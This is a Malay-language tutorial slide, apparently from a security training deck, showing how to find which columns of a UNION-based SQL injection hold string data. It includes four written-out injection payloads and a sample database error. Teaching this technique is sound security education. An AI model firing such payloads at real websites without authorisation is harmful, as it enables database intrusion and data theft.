

# Cara Mencari columns yang mengandungi data
Setelah kita berjaya mendapatkan bilangan columns yang ada, kita boleh try n error setiap column untuk cari data dengan cara submit UNION SELECT payloads. Contohnya, jika query returns 4 columns, kita boleh submit:

' UNION SELECT ‘a’,NULL,NULL,NULL --
' UNION SELECT NULL,’a’,NULL,NULL --
' UNION SELECT NULL,NULL,’a’,NULL --
' UNION SELECT NULL,NULL,NULL,’a’ –

Jika ada column yang tidak mempunyai data, column tersebut akan menghasilkan error, contohnya:

Conversion failed when converting the varchar value ‘a’ to data type int.

DFM_Rekrut